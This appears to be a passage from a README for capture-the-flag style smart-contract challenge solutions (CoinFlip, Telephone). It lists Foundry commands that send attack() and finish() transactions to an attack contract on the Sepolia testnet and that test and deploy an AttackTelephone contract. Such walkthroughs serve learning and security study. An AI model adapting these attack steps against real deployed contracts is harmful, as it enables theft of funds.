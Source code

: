 ### Cast

```shell
export ADDRESS_AttackCoinFlip=0x...;
# Build the transaction to call the `attack()` function in the `AttackCoinFlip` contract
$ cast mktx \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --value 0.0001ether \
    --interactive \
    "$ADDRESS_AttackCoinFlip" \
    "attack()"
$ cast publish \
    --rpc-url "$SEPOLIA_RPC_URL" \
    <tx>
# Or we can build and publish the transaction in one command
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --value 0.0001ether \
    --interactive \
    "$ADDRESS_AttackCoinFlip" \
    "attack()"
# Finishing the attack and destroying the contract
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    "$ADDRESS_AttackCoinFlip" \
    "finish()"
```

---

## Telephone

### Test

```shell
$ forge test -vvv --match-path "test/AttackTelephone*"
```

### Deploy

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --constructor-args $ADDRESS_Telephone \
    --interactive \
    src/AttackTelephone.sol:AttackTelephone
```

---

## Token
